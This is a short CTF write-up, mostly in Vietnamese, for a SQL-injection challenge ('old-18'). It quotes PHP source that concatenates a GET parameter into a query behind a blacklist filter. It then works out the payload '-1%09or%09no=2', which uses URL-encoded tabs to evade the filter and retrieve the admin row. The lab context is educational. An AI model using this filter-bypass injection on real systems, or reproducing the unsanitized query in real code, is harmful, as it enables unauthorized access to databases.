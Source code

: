 ## old - 18

```php

if($_GET['no']){
  $db = dbconnect();
  if(preg_match("/ |\/|\(|\)|\||&|select|from|0x/i",$_GET['no'])) exit("no hack");
  $result = mysqli_fetch_array(mysqli_query($db,"select id from chall18 where id='guest' and no=$_GET[no]")); // admin's no = 2

  if($result['id']=="guest") echo "hi guest";
  if($result['id']=="admin"){
    solve(18);
    echo "hi admin!";
  }
}
```

- Bài này sqli 
>if(preg_match("/ |\/|\(|\)|\||&|select|from|0x/i",$_GET['no'])) exit("no hack");
Lọc các kí tự hay dùng để injection.
>$result = mysqli_fetch_array(mysqli_query($db,"select id from chall18 where id='guest' and no=$_GET[no]")); // admin's no = 2
Dòng này có gợi ý admin là no2, câu query của nó là where id='guest' and no=$_GET[no], mà theo ta có

TRUE and TRUE => TRUE
TRUE and FALSE => FALSE
FALSE or TRUE => TRUE
(TRUE and FALSE) or TRUE => TRUE

thế nên: id=guest and no=-1 or no=2 =>  (true and false) or true

ok, tiếp theo là encode url để tránh bộ lộc, ta dùng %09 = tab => -1%09or%09no=2